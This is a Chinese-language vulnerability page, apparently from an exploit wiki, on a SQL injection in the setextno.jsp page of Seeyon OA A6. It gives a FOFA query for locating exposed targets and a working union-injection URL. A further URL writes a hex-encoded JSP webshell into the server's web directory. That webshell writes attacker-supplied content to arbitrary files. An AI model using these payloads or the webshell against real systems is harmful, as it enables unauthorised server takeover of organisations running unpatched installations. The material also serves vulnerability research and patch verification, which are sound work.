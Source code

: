 # 致远OA A6 setextno.jsp SQL注入漏洞

## 漏洞描述

致远OA A6 setextno.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

## 漏洞影响

  <a-checkbox checked>致远OA A6</a-checkbox></br>

## FOFA

  <a-checkbox checked>title="致远A8+协同管理软件.A6"</a-checkbox></br>

## 漏洞复现

访问如下Url，其中含有 union注入

```plain
/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(md5(1)),4#
```



![img](../../../.vuepress/public/img/zhiyuan-37.png)



查看web路径



![img](../../../.vuepress/public/img/zhiyuan-38.png)



写入文件上传木马



```plain
http://xxx.xxx.xxx/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(select unhex('3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E')  into outfile 'D:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/test_upload.jsp'),4#
```



![img](../../../.vuepress/public/img/zhiyuan-40.png)